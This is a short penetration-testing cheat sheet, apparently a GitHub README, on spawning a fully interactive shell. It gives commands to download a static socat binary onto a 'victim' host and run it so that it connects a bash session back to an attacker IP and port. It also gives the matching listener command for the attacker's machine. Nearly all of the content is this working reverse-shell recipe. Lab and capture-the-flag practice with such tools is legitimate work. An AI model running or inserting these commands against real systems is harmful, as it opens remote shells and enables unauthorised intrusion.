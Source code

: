 # Penetration Testing Cheat Sheet

## Spawn a full functionally shell (tty)

If ```socat``` it's not installed, we cand download from [socat binaries](https://github.com/andrew-d/static-binaries):

**On victim**

```bash
$ wget https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat
$ ./socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.14.239:4445
```

**On our machine:**
```
socat file:`tty`,raw,echo=0 tcp-listen:4445
```
